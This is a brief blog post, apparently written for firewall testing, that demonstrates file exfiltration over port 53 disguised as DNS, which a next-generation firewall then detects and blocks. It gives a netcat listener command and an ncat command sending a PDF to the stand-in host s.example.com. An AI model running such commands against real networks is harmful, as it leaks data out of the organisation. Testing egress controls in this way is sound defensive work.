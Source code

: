 ```yaml
---
layout: post
title:  "Application Firewall Data Exfiltration"
date:   2020-03-14 14:11:15 -0400
categories: exfiltration 
---
```

<p>
Once an environment has been compromised and the adversary finds some desirable data the data needs to be removed from the network. In this use case we will assume that common protocols like FTP and SSH are heavily restricted on egress traffic (as they should be) so a simple listener will be open on the DNS port which is more commonly permitted.
</p>

<h3>Step 1 - Start the Listener</h3>

<p>
In this example the listener is being run on a Linux host outside of the firewall.
</p>

<p>nc is like a networking swiss army knife, -l means listen, -p specifies port 53, and > data indicates to store all of the data received in a file called data.
</p>
<br>
<code>
  nc -l -p 53 > data
</code>
<br>
<br>
<img src="/images/exfiltration-netcat-destination.png" alt="netcat">

<h3>Step 2 - Send a File</h3>

<p>
From a blue host behind the firewall run netcat.
</p>

<p>
This time netcat is being run with --send-only which only allows sending to the target, the target is s.example.com, the port is 53 to appear as DNS, and < rp_DBIR_2017_Report_en_xg.pdf sends that PDF over the channel.
</p>
<br>

<code>
  ncat --send-only s.example.com 53 < rp_DBIR_2017_Report_en_xg.pdf
</code>
<br>
<br>
<img src="/images/exfiltration-netcat-source.png" alt="netcat">


<h3>Step 3 - View the Results</h3>

<p>
After several seconds we see that the sending device ends the session with "broken pipe", meaning something happened to the session and it ended. This could be from the target, source, or something in between.
</p>

<p>
Looking at the following NGFW log we can see that the NGFW prevented the session. It determined that the traffic is not actually DNS and instead identified it as psiphon, which is not permitted in any policy.
</p>
<br>
<br>
<img src="/images/exfiltration-netcat-ngfwlog.png" alt="ngfw">



